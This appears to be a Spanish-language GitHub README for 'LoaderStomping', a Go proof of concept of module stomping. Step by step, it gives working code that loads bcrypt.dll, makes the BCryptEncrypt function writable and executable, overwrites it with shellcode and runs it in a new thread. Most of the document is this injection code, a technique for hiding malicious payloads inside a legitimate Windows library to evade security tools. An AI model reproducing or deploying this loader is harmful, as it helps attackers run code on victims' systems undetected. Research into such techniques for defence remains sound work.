

# LoaderStomping

<p align="center">
  

</p>

## Introducción

LoaderStomping es un proyecto de prueba de concepto que demuestra la técnica de module stomping para la inyección de código en una función específica de una DLL de Windows (bcrypt.dll) usando Go. Este proyecto aprovecha las llamadas a la API de Windows a bajo nivel para cambiar la protección de memoria, escribir shellcode y ejecutarlo creando un nuevo hilo.
## Cargando la Librería

El siguiente código carga la librería bcrypt.dll:

```
lib, err := syscall.LoadLibrary("C:\\Windows\\System32\\bcrypt.dll")
if err != nil {
fmt.Println("Failed to load library:", err)
return
}
fmt.Printf("Address of library bcrypt.dll : 0x%X\n", uintptr(lib))
```

## Obteniendo la Dirección de la Función

Se obtiene la dirección de la función BCryptEncrypt:

```
funcAddress, err := syscall.GetProcAddress(lib, "BCryptEncrypt")
if err != nil {
log.Fatal("Failed to get function address:", err)
}
fmt.Printf("Address of BCryptEncrypt function : 0x%X\n", funcAddress)
```

## Cambiando la Protección de Memoria

Se cambia la protección de memoria antes de escribir el shellcode:

```
var oldProtect uint32

ret, _, err := virtualProtect.Call(funcAddress, uintptr(len(shellcode)), syscall.PAGE_EXECUTE_READWRITE, uintptr(unsafe.Pointer(&oldProtect)))
if ret == 0 {
fmt.Println(colorRed, "Failed to change memory protection:", err, colorReset)
return
}
fmt.Println(colorGreen, "Memory protection changed successfully.", colorReset)
fmt.Printf("Old protection: 0x%X\n", oldProtect)
printShellcode(shellcode)
```


## Escribiendo el Shellcode

El shellcode se escribe en la función BCryptEncrypt:

```
copyMemory(funcAddress, shellcode)
fmt.Println(colorGreen, "Shellcode written to BCryptEncrypt function successfully.", colorReset)
```


## Restaurando la Protección de Memoria

La protección de memoria se restaura a su estado original:
```
ret, _, err = virtualProtect.Call(funcAddress, uintptr(len(shellcode)), uintptr(oldProtect), uintptr(unsafe.Pointer(&oldProtect)))
if ret == 0 {
fmt.Println(colorRed, "Failed to restore memory protection:", err, colorReset)
return
}
fmt.Println(colorGreen, "Memory protection restored successfully.", colorReset)
fmt.Printf("Restored protection: 0x%X\n", oldProtect)
```

## Creando un Nuevo Hilo

Se crea un nuevo hilo para ejecutar el shellcode:
```
threadHandle, _, err := createThread.Call(0, uintptr(len(shellcode)), funcAddress, 0, 0, 0)
if threadHandle == 0 {
fmt.Println(colorRed, "Failed to create thread:", err, colorReset)
return
}
fmt.Println(colorGreen, "Thread created successfully.", colorReset)
fmt.Printf("Thread handle: 0x%X\n", threadHandle)
fmt.Println(colorYellow, "Inyect Success [+]", colorReset)
fmt.Scanln()
```
# Funciones Auxiliares
## copyMemory

Esta función copia el shellcode en la memoria destino:

```
func copyMemory(dest uintptr, src []byte) {
for i, b := range src {
*(*byte)(unsafe.Pointer(dest + uintptr(i))) = b
}
}

```


## printShellcode

Esta función imprime el shellcode en formato hexadecimal:

```
func printShellcode(shellcode []byte) {
	fmt.Println("Shellcode:")
	for i := 0; i < len(shellcode); i += 16 {
		end := i + 16
		if end > len(shellcode) {
			end = len(shellcode)
		}
		offset := fmt.Sprintf("%08X", i)
		bytes := hex.EncodeToString(shellcode[i:end])
		fmt.Printf("%s  %s\n", offset, bytes)
	}
}


```

